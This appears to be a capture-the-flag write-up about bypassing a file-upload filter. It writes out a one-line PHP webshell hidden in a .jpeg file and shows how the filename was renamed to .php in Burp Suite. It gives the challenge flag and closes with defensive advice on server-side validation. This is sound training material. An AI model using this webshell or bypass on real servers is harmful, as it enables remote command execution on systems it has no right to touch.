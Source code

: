 ## 🧩 Solution to the Challenge

I began by analyzing the **HTML source code** of the page containing the file upload form. Specifically, I looked at the accepted file types and noticed that the input field allowed only files with the **`.jpeg`** extension.

<img width="823" height="211" alt="Capture d’écran 2025-07-30 à 15 29 19" src="https://github.com/user-attachments/assets/a597f2bd-27b5-4a4d-be82-f215dd1a9df5" />

### 🔍 Initial Observations:

* I suspected that server-side validation might also be weak or misconfigured.

### 🧪 Bypass Strategy:

To test this, I created a file named `shell.jpeg`, but instead of using a real image, I placed **PHP code** inside it:

```php
<?php system($_GET["cmd"]); ?>
```

* I uploaded this `.jpeg` file directly through the form.
* On the surface, it was accepted, but the server didn't seem to interpret it as PHP yet.
<img width="1278" height="657" alt="Capture d’écran 2025-07-30 à 15 40 19" src="https://github.com/user-attachments/assets/7b3a3b07-d324-4446-817e-19084126bfd0" />
<img width="1436" height="757" alt="Capture d’écran 2025-07-30 à 15 40 48" src="https://github.com/user-attachments/assets/ff32c44f-efcf-40cc-bad7-1839d5b31ff3" />


### 🕵️ Manipulating the Request with Burp Suite:

Using **Burp Suite**, I intercepted the `POST` request responsible for the file upload. In the request body, I found the part that included the file metadata:

```
Content-Disposition: form-data; name="file"; filename="shell.jpeg"
```

<img width="1089" height="742" alt="Capture d’écran 2025-07-30 à 15 44 17" src="https://github.com/user-attachments/assets/1f9336b0-6f60-402f-a063-5077a2ebb8b2" />


I modified this line to:

```
filename="shell.php"
```

This tricked the server into saving the file with a `.php` extension instead of `.jpeg`.

<img width="1415" height="728" alt="Capture d’écran 2025-07-30 à 15 45 06" src="https://github.com/user-attachments/assets/2550a1ab-7bcd-42c7-bf8e-56b232c10b98" />

* Result:

  ```
  FLAG: 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
  ```

---

## 🏁 Conclusion:

The challenge exploited a **weak server-side file validation system**. Although the UI restricted uploads to `.jpeg`, the server trusted the filename from the POST request without rechecking it.

By modifying the filename to `.php` in Burp Suite, I was able to upload and execute a PHP webshell.

This kind of vulnerability emphasizes the importance of:

* Validating file types **server-side**
* Sanitizing file extensions
* Preventing execution in upload directories
